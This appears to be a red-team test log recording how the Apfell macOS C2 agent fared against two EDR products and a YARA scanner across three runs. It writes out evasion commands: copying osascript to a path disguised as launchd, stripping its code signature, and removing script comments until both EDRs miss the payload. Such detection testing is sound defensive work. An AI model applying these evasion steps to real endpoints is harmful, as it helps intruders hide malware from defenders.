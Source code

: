**Detections**
* Enterprise EDR Solution 1: No
* Enterprise EDR Solution 2: Yes (Blocked)
* Enterprise YARA Solution: Yes


Ran unmodified [apfell](https://github.com/MythicAgents/apfell) in endpoint, blocked by Enterprise EDR Solution 2.


`osascript index.js`

Hashes:
89a06666173b1acac37c00e99e7e287bfb029622c1f22206ecef3d8571097fb1 index.js

***

**Detections**
* Enterprise EDR Solution 1: No
* Enterprise EDR Solution 2: Yes (It detected the copying of the osascript binary and blocked)
* Enterprise YARA Solution: Yes

Moved osascript binary (and removed signature because of  AMFI), reran the same apfell script. 

`cp /usr/bin/osascript /var/tmp/launchd
codesign --remove-signature /var/tmp/launchd
/var/tmp/launchd index.js`

Hashes:
89a06666173b1acac37c00e99e7e287bfb029622c1f22206ecef3d8571097fb1 index.js

***

**Detections**
* Enterprise EDR Solution 1: No
* Enterprise EDR Solution 2: No
* Enterprise YARA Solution: Yes

Removed all the comments from the apfell script, reran with an osascript binary downloaded from Slack (an attacker could have sent a zip with apfell and the osascript binary).

`sed -i '' -e 's/^\/\/.*$//g' index.js`


`./osa index_nocom.js`

Hashes:
b4c8c8cad1916c3f999dfd042c2893f7851e5a713022a5e2f52b28f3ce59248d  index_nocom.js
37f1efdc985e99cffaee4546ced87a5c0bf6560d41799119f27432dbce6139ac  osa